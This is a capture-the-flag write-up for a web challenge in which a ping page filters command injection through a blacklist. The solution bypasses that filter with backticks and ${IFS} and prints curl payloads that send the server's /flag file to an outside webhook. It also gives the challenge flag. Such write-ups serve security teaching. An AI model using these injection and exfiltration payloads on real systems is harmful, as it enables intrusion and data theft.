 # Challenge

**Name:** Ping of Death 2.0

**Category:** Web

**Difficulty:** Medium

**Author:** Alex Brown (ghostccamm)

**Flag:** `ISS{k1dDi3s_c4nNoT_wR1t3_s3CuR3_wAf5!1one1!}`

## Description

Some CITS1003 and CITS3004 students hacked my last DDoS website exploiting a **command injection vulnerability** and completely destroyed it! Well I have now developed the new and improved **Ping of Death 2.0**! I have implemented a sophisticated Web Application Firewall that will block any hacking attempt. Good luck hacking it now script kiddies!

Can you find a way to read the flag located at `/flag` on the server?

## Solution

The WAF that was implemented does prevent a simple command injection like `; cat /flag`, which was one of the methods from the Ping of Death challenge from the CITS1003 and CITS3004 assignment last year. 

You can test which characters are blacklisted by sending it and if the server responds with "Bugger off hacker! 🤬" then you know that character is blacklisted. The key characters that are not blacklisted are shown below.

```
`${}
```

However, the WAF blocks all spaces and an alternative method has to be used. A bypass is to use the `${IFS}` environment variable to input spaces into the command.

The final hurdle is that `stderr` is not shown by the website. A method is to exfiltrate the data by using a webhook. To test if `curl` or `wget` are installed on the server, you can input following command to see that the website does send a request to the web hook.

```bash
`curl${IFS}https://webhook.site/b26b4c23-331c-4d0d-987c-5738155b7f44`
```

To get the flag content, you can post the contents of the file using the `curl` as shown below.

```bash
`curl${IFS}https://webhook.site/b26b4c23-331c-4d0d-987c-5738155b7f44${IFS}-d${IFS}@/flag`
```